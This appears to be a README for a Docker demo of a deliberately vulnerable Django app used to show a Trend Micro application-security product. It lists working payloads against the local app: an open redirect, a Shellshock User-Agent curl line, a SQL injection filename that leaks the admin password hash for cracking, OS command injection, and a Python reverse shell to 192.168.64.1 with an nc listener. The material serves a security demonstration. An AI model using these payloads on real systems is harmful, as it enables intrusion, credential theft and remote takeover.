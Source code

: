 # test
## test
### test

Pre-Requisites for Usage
	• Docker
	• A Cloud One Application Security account
	
Usage Instructions
	1. Download & run the container:

docker run --rm -d -p 8000:8000 --name djangonv-app-protect -e TREND_AP_KEY=??? -e TREND_AP_SECRET=??? andrefernandes86/demo-cloudone-appprotect:latest

https://cloudone.trendmicro.com
http://127.0.0.1:8000

Open Redirect Vulnerability
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com 

Malicious Payload (Intrusion Prevention)
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000 

Remote Command Execution
1. Go to http://127.0.0.1:8000/ and click "Login"
2. Login to the application
user / user123
3. Click the link for the "demo project".
4. Click the "Add files" link.
5. Pick any file from your local computer, and use the following payload for the filename:
'||(SELECT password FROM auth_user WHERE username='admin')||'
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

OS Command Injection:
In the same place as in for the attack above ("My Projects" --> project you created, add files). Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):

some_file_name; sleep 1m

You'll notice that (without Cloud One Application Security), the browser will "sleep" for 1 minute.
For a more "interesting" demonstration, you can inject a python reverse shell. Reverse shells are commonly used to remotely control the locally exploited application.

Also in the same location within the application, pick any file from your local computer, but for the payload use:

some_file_name; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.1",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Note: You'll need to set up a listener on an external host in order for this reverse shell to actually connect. In the above case the host is at 192.168.64.1 and is listening on port 8001.

For example:
nc -nvlp 8001

Note: netcat syntax may vary from system to system.
